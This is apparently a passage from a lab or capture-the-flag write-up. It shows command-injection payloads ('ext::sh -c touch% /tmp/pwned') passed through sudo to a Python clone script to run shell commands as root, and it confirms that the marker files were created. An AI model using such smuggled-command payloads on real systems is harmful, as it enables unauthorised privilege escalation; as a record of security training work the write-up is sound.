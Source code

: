 > I also tried the 2 payloads in target server 

```
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c touch% /tmp/pwned'

sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c touch% /tmp/pwnedddddddddd'
```

![](./IMG/56.png)

![](./IMG/57.png)

> Checking target directory /tmp 
> I also found those 2 file has been created

![](./IMG/58.png)
